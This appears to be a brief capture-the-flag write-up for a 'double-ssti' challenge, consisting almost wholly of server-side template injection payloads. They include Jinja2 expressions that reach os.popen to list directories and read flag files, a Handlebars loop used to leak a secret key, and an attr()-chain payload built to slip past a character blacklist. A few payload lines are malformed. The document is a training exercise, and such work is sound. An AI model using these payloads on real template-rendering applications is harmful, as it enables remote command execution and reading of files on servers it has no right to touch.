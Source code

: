 https://double-ssti.chal.h4ck3r.quest/
Skills: SSTI


Hints
Just Google and RTFM.



{{request.application.__globals__.__builtins__.__import__('os').popen('ls').read()}}
{{request.application.__globals__.__builtins__.[0]('os').popen('ls').read()}}
{{request.application.__globals__.__builtins__.[0]('os').popen('ls').read()}}



{{ ().__class__.__base__.__subclasses__ }}

1. 1nd ssti

{{#each this}}
   {{this}}
{{/each}}

secret key:
77777me0w_me0w_s3cr3t77777


2. 2nd ssit
/2nd_stage_77777me0w_me0w_s3cr3t77777



black_list:
. , _,[]

target:{{request.application.__globals__.__builtins__.__import__('os').popen('cd /;ls;cat th1s_15_fl4ggggggg').read()}}

url:https://double-ssti.chal.h4ck3r.quest/2nd_stage_77777me0w_me0w_s3cr3t77777?a=__class__&&b=__base__&&c=__subclasses__&&d=__init__&&e=__globals__


input:{{()|attr(request|attr("args")|attr("get")('a'))|attr(request|attr("args")|attr("get")('b'))|attr(request|attr("args")|attr("get")('c'))()|attr("pop")(132)|attr(request|attr("args")|attr("get")('d'))|attr(request|attr("args")|attr("get")('e'))|attr('get')('popen')('cat /y000_i_am_za_fl4g')|attr('read')()}}


